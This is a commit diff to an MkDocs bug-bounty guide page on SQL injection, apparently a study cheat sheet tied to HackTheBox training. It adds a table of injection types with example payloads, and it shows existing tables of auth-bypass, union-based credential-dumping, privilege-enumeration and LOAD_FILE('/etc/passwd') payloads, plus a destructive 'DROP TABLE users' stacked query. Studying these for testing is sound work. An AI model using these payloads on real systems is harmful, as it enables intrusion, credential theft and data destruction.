

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/sql-injection-fundamentals.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
add types of sqli to sqli fundamentals page

```diff
--- a/docs/bug-bounty-guide/sql-injection-fundamentals.md
+++ b/docs/bug-bounty-guide/sql-injection-fundamentals.md
@@ -1,7 +1,20 @@
 # SQL Injection
 
+## Types of SQL Injection (SQLi)
+
+| Type           | Description                              | Example                          | Useful/Where Can't Be Used                     |
+|----------------|------------------------------------------|----------------------------------|------------------------------------------------|
+| Classic        | Direct injection into input fields.      | `' OR '1'='1`                   | Useful for basic input fields; can't use if input is sanitized. |
+| Union-Based    | Uses UNION operator to extract data.     | `' UNION SELECT NULL, username, password --` | Useful with multiple columns; can't use if UNION is blocked. |
+| Error-Based    | Exploits database errors to reveal data. | `' AND 1=(SELECT COUNT(*))`     | Useful with error messages; can't use if errors are suppressed. |
+| Blind (Boolean)| Infers data via true/false responses.    | `' AND SUBSTRING(version(), 1, 1)=5` | Useful when errors are suppressed; can't use if responses are identical. |
+| Blind (Time-Based) | Delays response based on conditions. | `' OR IF(1=1, SLEEP(5), 0)`    | Useful with no output; can't use if timing controls are strict. |
+| Stacked Queries | Executes multiple statements.            | `'; DROP TABLE users; --`       | Useful if multi-queries allowed; can't use if DBMS restricts it. |
+
 ## MySQL
+
 ### General
+
 | Command | Description |
 |---------|-------------|
 | `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
@@ -9,6 +22,7 @@
 | `USE users` | Switch to database |
 
 ### Tables
+
 | Command | Description |
 |---------|-------------|
 | `CREATE TABLE logins (id INT, ...)` | Add a new table |
@@ -19,6 +33,7 @@
 | `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
 
 ### Columns
+
 | Command | Description |
 |---------|-------------|
 | `SELECT * FROM table_name` | Show all columns in a table |
@@ -30,6 +45,7 @@
 | `ALTER TABLE logins DROP oldColumn` | Delete column |
 
 ### Output
+
 | Command | Description |
 |---------|-------------|
 | `SELECT * FROM logins ORDER BY column_1` | Sort by column |
@@ -41,6 +57,7 @@
 | `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |
 
 ### MySQL Operator Precedence
+
 - Division (/), Multiplication (*), and Modulus (%)
 - Addition (+) and Subtraction (-)
 - Comparison (=, >, <, <=, >=, !=, LIKE)
@@ -49,14 +66,18 @@
 - OR (||)
 
 ## SQL Injection
+
 ### Auth Bypass
+
 | Payload | Description |
 |---------|-------------|
 | `admin' or '1'='1` | Basic Auth Bypass |
 | `admin')-- -` | Basic Auth Bypass With comments |
 
 ### Auth Bypass Payloads
+
 ### Union Injection
+
 | Payload | Description |
 |---------|-------------|
 | `' order by 1-- -` | Detect number of columns using order by |
@@ -65,6 +86,7 @@
 | `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
 
 ### DB Enumeration
+
 | Payload | Description |
 |---------|-------------|
 | `SELECT @@version` | Fingerprint MySQL with query output |
@@ -76,6 +98,7 @@
 | `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
 
 ### Privileges
+
 | Payload | Description |
 |---------|-------------|
 | `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
@@ -84,6 +107,7 @@
 | `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
 
 ### File Injection
+
 | Payload | Description |
 |---------|-------------|
 | `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
```
